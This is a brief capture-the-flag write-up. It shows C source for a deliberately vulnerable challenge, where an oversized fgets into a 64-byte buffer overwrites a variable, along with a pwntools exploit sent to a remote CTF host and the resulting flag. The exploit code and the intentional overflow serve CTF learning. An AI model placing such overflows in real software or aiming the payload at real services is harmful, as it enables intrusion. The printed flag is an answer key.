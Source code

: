 ```c

	fgets(flag,FLAGSIZE,f);
	printf(flag);

	return;
}


void vulnerable() {
	volatile long val = 0x12345678;
	char buf[64] = {0x00};

	printf("The flag can only be touched when val is altered, you can never figure it out!\n");
	fgets(buf, 69, stdin);
	
	printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

	if (val == 0xdeadbeef)
		win();
	else {
		printf("Nope.");
		exit(1);
	}
	return;	
}

int main() {
	setvbuf(stdout, NULL, _IONBF, 0);
	vulnerable();
	return 0;
}
```

Another simple variable overwrite:

```py
from pwn import *

context.log_level = 'error'

r = remote('ctf.whitehats.site', 14005)

r.sendline(b'A'*64 + p32(0xdeadbeef))

r.interactive()
```

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/2dc68ca4-5c1a-4d19-af4c-f9ab37561405)

Flag: `WH2024{H0w_d1d_you_f1gur3_i+_0ut!?}`

-----

